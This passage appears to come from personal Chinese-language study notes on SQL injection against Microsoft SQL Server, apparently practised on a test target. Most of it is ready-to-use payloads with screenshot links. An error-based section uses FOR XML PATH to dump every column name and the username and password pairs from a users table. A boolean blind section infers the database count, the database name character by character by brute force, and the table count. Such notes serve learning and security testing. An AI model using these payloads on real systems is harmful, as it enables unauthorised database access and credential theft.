 ![image-20240905162348324](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905162348324.png)

#### 获取`所有`字段名

```SQL
id=1'and 1=(select quotename(column_name) from information_schema.columns where table_name='users' FOR XML PATH('')) --+		
```

![image-20240905162556382](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905162556382.png)

#### 获取`所有`数据

```sql
id=1'and 1=(select quotename(username),quotename(password) from users for xml path('')) --+
```

![image-20240905162750487](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905162750487.png)

------



# 布尔盲注

#### 判断数据库个数

```sql
id=1'and (select count(*) from sys.databases)=8 --
```

#### 获取数据库名长度

```sql
id=1'and len(select db_name())=4 --+
```

![image-20240905164331195](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905164331195.png)

#### 获取数据库名-->`test`

```sql
//先写好包含26字母大小写的payload字典,放入爆破-->数据库名test
id=1'and substring((select db_name()),2,1)='e' --+
```

![image-20240905165758840](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905165758840.png)

#### 获取表的个数-->`5`

```sql
//使用 table_catalog 指定当前数据库
id=1'and (select count(*) from information_schema.tables where table_catalog='test')=5 --+
```

![image-20240905170855538](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905170855538.png)
